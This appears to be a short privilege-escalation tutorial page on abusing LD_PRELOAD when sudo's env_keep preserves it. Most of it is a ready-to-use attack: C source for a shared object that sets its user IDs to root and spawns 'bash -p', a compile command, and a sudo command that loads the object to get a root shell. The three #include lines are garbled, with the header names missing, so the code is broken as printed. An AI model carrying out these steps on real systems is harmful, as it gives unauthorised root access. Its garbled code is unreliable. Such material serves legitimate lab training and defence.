


# LD\_PRELOAD

LD\_PRELOAD is an environment variable which can be set to the path of a shared object \(.so\) file. When set, the shared object will be loaded before any others. By creating a custom shared object and creating an init\(\) function, we can execute code as soon as the object is loaded.

## Limitations

LD\_PRELOAD will not work if the real user ID is different from the effective user ID. sudo must be configured to preserve the LD\_PRELOAD environment variable using the env\_keep option.

List the programs your user is allowed to run via sudo -l


Note that the env\_keep option includes the LD\_PRELOAD environment variable.


Create a file \(preload.c\) with the following contents:

`#include  
 #include  
 #include  
 void _init() {  
 unsetenv("LD_PRELOAD");  
 setresuid(0,0,0);  
 system("/bin/bash -p");  
 }`

Compile preload.c to preload.so:

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`

Run any allowed program using sudo, while setting the LD\_PRELOAD environment variable to the full path of the preload.so file:

`sudo LD_PRELOAD=/tmp/preload.so apache2`

